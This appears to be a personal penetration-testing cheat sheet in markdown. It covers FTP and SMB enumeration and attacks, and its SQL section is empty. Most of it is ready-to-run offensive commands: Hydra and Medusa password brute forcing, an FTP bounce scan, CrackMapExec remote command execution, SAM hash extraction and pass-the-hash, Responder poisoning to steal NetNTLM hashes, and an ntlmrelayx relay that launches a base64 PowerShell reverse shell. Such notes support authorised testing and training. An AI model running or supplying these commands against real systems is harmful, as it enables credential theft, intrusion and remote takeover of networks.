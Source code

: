 Navigation: [[Pentesting]]

---
# Protocols
1. FTP
2. SMB
3. SQL
4. RDP
5. DNS
6. SMTP
# FTP
### Enumeration
**Local Config**
```shell
cat /etc/vsftpd.conf | grep -v "#"

cat /etc/ftpusers
```
**Remote Enumeration**
```shell
nmap --script ftp-* -p 21 <ip>
```
### Brute Force
**Hydra**
```shell
hydra -l <user> -P <password_list> ftp://<host>
```
**Medusa**
```shell
medusa -u <user> -P <password_list> -h <host> -M ftp 
```
### Bounce Attack
In an FTP bounce attack, we're using a proxy FTP server to perform our attacks. This proxy is usually located in a DMZ. Here's a diagram from G4G:
![[ftp_bounce_attack.webp]]

**FTP Bounce using Nmap:**
```shell
nmap -Pn -v -n -p80 -b <user>:<pass>@<external_host> <internal_host>
```

Here's some further [reading](http://www.ouah.org/ftpbounce.html).
# SMB
### Enumeration
**Nmap Scan**
```shell
sudo nmap <Host> -sV -sC -p139,445
```

**Finding server shares:**
```shell
smbclient -N -L //<host>

smbmap -H <host> # Add -r <directory> to view directory
```

**Downloading and Uploading (If Allowed):**
```shell
smbmap -H <host> --download "notes\note.txt"

smbmap -H <host> --upload test.txt "notes\test.txt"
```

**RPC Client:**
Use the [SANS Cheatsheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf) or [man page](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) to find commands to use after.
```shell
rpcclient -U'%' <host>

rpcclient -U "username%passwd" <IP> #With creds
```

**Enum4Linux**
[Source](https://github.com/cddmp/enum4linux-ng)
```shell-session
./enum4linux-ng.py <host> -A -C
```
### Brute Force
```shell
nmap --script smb-brute -p 445 <IP>

hydra -l Administrator -P words.txt <host> smb -t 1
```

### CrackMapExec
**Brute Force Users**
```shell
crackmapexec smb <host> -u /tmp/userlist.txt -p <'password'>
```

**Execute Command**
```shell
crackmapexec smb 10.10.110.17 -u <user> -p <'password'> -x <'cmd'> --exec-method smbexec
```

**Enumerate Logged on Users**
```shell
crackmapexec smb <IP>/24 -u administrator -p 'Password123!' --loggedon-users
```

**Extract SAM Hashes**
```shell
crackmapexec smb <host> -u administrator -p 'Password123!' --sam
```

**Pass-The-Hash**
```shell
crackmapexec smb <host> -u Administrator -H <hash>
```
### Responder
Tool used to poison `LLMNR`, `NBT-NS`, and `MDNS`. It can also set up fake services to steal `NetNTLM v1/v2` hashes.

**Setting up a Fake Server**
```shell
responder -I <interface name>
```
### Impacket
**Connect to Host**
Same options for `impacket-smbexec` and `impacket-atexec`
```shell
impacket-psexec <user>:<'password'> <host>
```

The next few commands are for use with `Responder`. Ensure the following:
```shell
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

**Extract SAM Hashes**
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <host>
```

**Execute Reverse Shell**
[Create shell here](https://www.revshells.com/)
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <host> -c 'powershell -e <base64 reverse shell>' # -c option allows us to use commands
```
# SQL


---
Navigation: [[Pentesting]]